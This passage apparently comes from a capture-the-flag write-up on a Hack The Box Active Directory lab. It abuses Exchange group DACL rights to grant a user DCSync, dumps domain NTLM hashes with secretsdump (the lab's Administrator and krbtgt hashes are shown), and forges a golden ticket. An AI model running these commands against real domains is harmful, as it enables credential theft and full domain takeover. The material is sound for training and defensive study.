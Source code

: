 The relationship indicates that the EXCHANGE TRUSTED SUBSYSTEM security group has write permissions to the DACL of the EXCHANGE WINDOWS PERMISSIONS security group. This means it can change the permissions of this security group, potentially allowing for improper modifications to the Exchange environment or expanding the rights of certain users or groups.

`DCSync` right is a special privilege, typically referring to the ability of one entity (usually a domain controller) in Active Directory to have over another entity (such as a user or computer). An attacker with DCSync rights can mimic a domain controller and use directory replication services (like DRSUAPI) to request the synchronization of sensitive parts of user credentials (such as NTLM hashes and Kerberos tickets) from other domain controllers. This is a powerful attack vector because it allows the attacker to obtain user credentials without knowing the actual passwords of the users, which is sufficient for lateral movement or privilege escalation within the network.

**Method1**: Use `dacledit` to add DCSync right on kali

```console
$ dacledit.py -action 'write' -rights 'DCSync' -principal 'qwe' -dc-ip $IP -target-dn 'DC=HTB,DC=LOCAL' 'HTB'/'qwe':'ImQwe123'
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20240223-060254.bak
[*] DACL modified successfully!
```

**Method2**: Use powershell commands to grant created user with DCSync privilege on Windows

```console
*Evil-WinRM* PS C:\qwe> Import-Module C:\qwe\PowerView.ps1;$pass = convertto-securestring 'ImQwe123' -asplaintext -force;$cred = new-object system.management.automation.pscredential('HTB.LOCAL\qwe',$pass);Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=HTB,DC=LOCAL" -PrincipalIdentity qwe -Rights DCSync
```

After getting the `DCSync` privilege, then you can:

- dump nthash using secretdump on kali
- dump nthash using mimikatz locally on Windows

```console
└─╼$ impacket-secretsdump HTB.LOCAL/qwe:ImQwe123@10.129.23.226
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- **Administrator's NTHash** -> evil-winrm, impacket-psexec&wmiexec to login
- **krbtgt's NTHash** -> create golden ticket -> to login domain controller with full priv of dc (krbtgt + sid -> ticket.py -> configure_krb5.py + ntpdate htb.local + export KRB5CCNAME -> evil-winrm)

```console
└─╼$ impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565-1147 -domain HTB.LOCAL Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for HTB.LOCAL/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
```
